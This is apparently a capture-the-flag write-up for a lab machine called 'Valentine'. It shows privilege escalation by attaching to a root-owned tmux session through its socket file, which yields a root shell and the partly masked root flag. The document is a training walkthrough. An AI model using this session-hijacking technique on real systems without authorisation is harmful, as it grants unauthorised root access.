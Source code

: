 // Check tmux proccess that runs

    hype@Valentine:~$ ps -ef | grep tmux
-----

    root       1024      1  0 17:14 ?        00:00:01 /usr/bin/tmux -S /.devs/dev_sess
    hype       3297   3173  0 18:43 pts/0    00:00:00 grep --color=auto tmux

// Check for live connection, theres no active session

    hype@Valentine:~$ tmux ls
    failed to connect to server: No such file or directory

// In history, the user goes into the /.devs directory. then he start tmux session with the socket dev_sess.

// He tried to attach to that session with -a t dev_sess, but that’s not the correct way to do it.

// Then he runs the help command , and gets the correct way to connect, using -S .

// repeating user command 'tmux -S /.devs/dev_sess' gets us a root shell

    root@Valentine:/home/hype# id
    uid=0(root) gid=0(root) groups=0(root)
    root@Valentine:/home/hype# 


    root@Valentine:~# cat root.txt 
    f1bb6d759df1f....................
